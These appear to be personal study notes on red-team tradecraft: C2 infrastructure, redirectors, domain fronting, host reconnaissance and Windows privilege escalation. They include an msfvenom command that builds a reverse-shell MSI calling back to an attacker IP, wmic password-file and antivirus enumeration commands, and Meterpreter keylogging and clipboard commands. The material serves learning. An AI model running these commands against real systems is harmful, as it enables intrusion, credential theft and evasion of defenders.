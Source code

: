 # Maintaining Access & Privileges escalation.
How adversaries maintain their foothold and elevate privileges.

## 1. Attack Infrastructure

Example of a resilient attack infrastructur (no direct exposure of C&C server)
Victim  <>   Internet  <>   Redirectors  <>   C2 Servers 


**Segregation** (have different C&C servers by purpose, also see powerpoint):  
- Long haul 
    - example 1 dns request a day
    - when short haul is lost, long haul can be used to recreate short haul
- Short haul
    - used for primary operation & interaction with victims
    - often via http
    - more easily detected
    ...

**Communication channels**
Protocolls often used: Mail, HTTP(S), DNS   (usually not blocked by firewall)

Some companies only allow categorized domains so users can't see all websites. Some companies are in the business of categorising websites. Attackers can try to have their websites (with dangerous data) categorized using tricks. Examples: take over an existing websites, early registration of domain.

**Redirectors**
- Passthrough -> just forward  (Socat)
    - C2 Servers only accepts connection from passthrough -> C2 server cant be detected 
- Conditional  -> example appache server
    - depending on some criteria (e.g. in url) -> traffic will be from/to C2. Is confusing.
- Domain Fronting  
    - Redirect traffic through well known public cloud (e.g. AWS or Azure)
    - Example: in http request header: the host points to the attacker and then then cloud (example azure) will direct the request to the attacker defined in host


**Payload hosting**
Payload should be on a different server than C3 infrastructure.
Malware is on Google Drive, OneDrive... will not be blocked..

**Exploitation frameworks (used for adversary simulation and attackers)**
- sliver
- cobaltstrike  
    - adversary simulation but used by milicious actors as well
    - beacon: name for post-exploitation agents on infected machines
    - Beacon chaining
        - Infected hosts communicate with each together  (or example via SMB). Only one infected host would communicate back to attacker (also for the others). From an attackers point of view, there are advantages and drawbacks. Depending on the use case: attacker would use one or multiple (infected) hosts for communication.
- metasploit 
- etc.

## 2. Host Situational Awareness
Basically, learn about the environment (network, accounts etc.) so you can avoid being detected and regain access if you are kicked out. 

Things to check
- Anti-Virus (AV) / EDR (Endpoint Detection and Response) configs
- windows security settings
- Log forwarders  (e.g. via splunk)
- PowerShell/.Net versions
- Audit policies
- ...

Possible tools/ways to check to collection infos (Windows): 
- Registry/file system: Powershell/.Net version
- event log: example when does user log in (so we know when we can usually attack)
- Powershell: logging activated? (if not harder to detect)
    - see pdf
- WMI (Windows Management Instrumentation)
    - `wmic qfe list brief` -> installed updates
    - `wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET` file search
    - `wmic /namespace:\\root\securitycenter2 path antivirusproduct` enumerate Anti-Virus (AV) products
Name,readable,size /VALUE`
- User mining: 
    - keylogging (see what user is currently typing)
    - screenshots
    - observe clipboard
- Data Mining (data about organizatino)
    - Home folders
    - file shares
    - websites (Wiki, JRA etc.)
    - etc.
    - Tools
        - snaffler: find stuff in Windows/AD environment (all computers etc.)
        - etc.
    - Data Exfiltration
        - via http etc.
        - via CloudShares (OneDrive etc.)
- etc.

**Tools**
- Seatbelt
    - performs 50+ security oriented host-survey "safety checks“ for you
    - Internet history, recent commands, files SSH info etc.
- Meterpreter
    - Keylogging: `keyscan_start` -> to stop `keyscan_dump`
    - Screenshots 
    - Clipboard dump: `clipboard_monitor_start`
- Cobalt Strike (among others)
    - Screenshots: `screenshot -p <path> -q <quality>`
    - Clipboard: via powershell "Start-ClipboardMonitor.ps1"
    - KeePass (open source password manager) -> when unlocked passwords can be read from memory
- Powerview (Datamining)
    - powershell tool (part of PowerSploit project)
- Snaffler (mainly data maining)
    - tool to find secrets (credentials) in AD. etc.

## 3. Privilege Escalation
Usually, at first malware initially runs in the context of a normal user. Often next step is to escalate privileges on local system (local admin). A lot of vulnerabilities are similar accross operating systems. 

*Remark: Linux privilege escalation see separate file*

**Ways to escalate**
- UAC Bypass
    - UAC as in short: by default: process is started without admin privileges. If to run as admin: popup will appear. So user has to actively click and depending on configuration even enter pw. There are some ways to bypass UAC
    - to bypass UAC one needs a user with admin rights already (of course as otherwise there would be nothing to bypass)
    - ways to bypass see: https://github.com/hfiref0x/UACME
        - AlwaysInstallElevated for MSI  (see below)
        - often Dll Hijacking/sideloading is involved
        - Tools like "Cobal strike" or "Metasploit modules" also support this
- Some misconfigurations
    - AlwaysInstallElevated: AD Group policies which set to true.. makes the msi's run as admin. (even if user is not yet admin) 
        - Tool meterpreter can generate msi that creates a shell: "msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 –f msi > shell.msi"  (other tools like PowerUp can do that too)
    - Unattended Installation files (sometimes pw can be found in them)
    - Service binaries that one has write access and will be executed as admin
        - or generally any file that is executed with another user. (would be privilege escalation to another user)
    - Hijack Execution flow
        - if dll use is not immediatly found, windows will search different places to find the place. If attacker has write privileges in one of these places, it is possible to place "infected" dlls there. 
            - Vulnerability: "Unquoted Service Paths" when path/name has whitespaces so windows will look in multiple places
            - path variables (mentioned above)
    - DDL side loading
        - similar to dll hijacking.. smuggle in a malicious dll when windows Side-by-Side manifests are not specific enough about which dll to be loaded
    - etc.
- exploit known vulnerable software
    - potentially to be exploited via tools like metosploit
    - or search for internally developed software (.net or java as easily they can be easily decompiled)

*Some tools**
- PowerSploit: > collection of powershell scripts
- SharpUp > various PowerUp functionality
- PrivescCheck > similar to PowerSploit
- Sysinternals -> can be used to search for files with write access (can be used by sysadmins and attackers)
- ...

Varia: 
- check if im a local admin: `net.exe localgroup administrators` or `whomai.exe /groups` or `wmic useraccount where "LocalAccount = true"` 


## 4. AD Situational Awareness
see  "WindowsAndAD.md"

## 5. Credential Abuse

## Varia/Leftovers
- SMB -> server message block (windows protocol name)
- Reading memroy of other processes
    - possible if other process is running under the same user. Via OS tools 
    - https://stackoverflow.com/questions/1989783/how-is-it-possible-to-access-memory-of-other-processes#:~:text=Processes%20cannot%20access%20other%20processes,this%20mechanism%20to%20privileged%20processes.&text=Save%20this%20answer.,-Show%20activity%20on
- LAPS: AD feature to keep track of local admin passwords (as each machine should have a different local admin pw and this would be impossible to manage, microsoft added this feature to AD)
- Manifest in windows dll: every dll has a manifest (metadata of dll). 